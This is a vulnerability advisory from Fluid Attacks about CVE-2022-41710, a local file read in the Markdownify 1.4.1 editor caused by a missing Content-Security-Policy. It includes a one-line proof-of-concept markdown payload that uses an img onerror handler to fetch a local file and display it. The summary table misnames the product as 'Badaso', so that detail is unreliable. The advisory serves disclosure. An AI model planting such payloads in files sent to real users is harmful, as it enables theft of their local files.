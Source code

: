 ```yaml
---
slug: advisories/noisestorm/
title: Markdownify 1.4.1 - Local File Read
authors: Carlos Bello
writer: cbello
codename: noisestorm
product: Markdownify 1.4.1 - Local File Read
date: 2022-10-18 19:00 COT
cveid: CVE-2022-41710
severity: 5.5
description: Markdownify 1.4.1        -         Local File Read
keywords: Fluid Attacks, Security, Vulnerabilities, Markdownify, LFR
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Markdownify 1.4.1 - Local File Read                                |
| **Code name**         | [Noisestorm](https://en.wikipedia.org/wiki/Noisestorm)             |
| **Product**           | Badaso                                                             |
| **Affected versions** | Version 1.4.1                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-18                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Insecure or unset HTTP headers - Content-Security-Policy                                                                                                                               |
| **Rule**              | [043. Insecure or unset HTTP headers - Content-Security-Policy](https://docs.fluidattacks.com/criteria/vulnerabilities/043)                                                                                                                                                  |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 5.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41710](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41710)                                             |

## Description

Markdownify version 1.4.1 allows an external attacker to remotely
obtain arbitrary local files on any client that attempts to view a
malicious markdown file through Markdownify. This is possible because
the application does not have a CSP policy (or at least not strict enough)
and/or does not properly validate the contents of markdown files before
rendering them.

## Vulnerability

This vulnerability occurs because the application does not have a CSP
policy (or at least not strict enough) and/or does not properly validate
the contents of markdown files before rendering them.  Because of the
above, an attacker can embed malicious JS code in a markdown file and
send it to the victim to view and thus achieve an exfiltration of their
local files.

## Exploitation

To exploit this vulnerability, you must send the following file to a user
to open with Markdownify.

### exploit.md

```php
<img src="1" onerror='fetch("file:///etc/private").then(data => data.text()).then(leak => alert(leak));'/>
```

## Evidence of exploitation

![LFR-Markdownify](https://user-images.githubusercontent.com/51862990/196567814-83f3f413-a16c-4993-8157-ab44906c86d3.gif)

## Our security policy

We have reserved the CVE-2022-41710 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Markdownify 1.4.1

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/amitmerchant1990/electron-markdownify>

## Timeline

<time-lapse
  discovered="2022-09-28"
  contacted="2022-09-28"
  replied="2022-09-28"
  confirmed=""
  patched=""
  disclosure="2022-10-18">
</time-lapse>
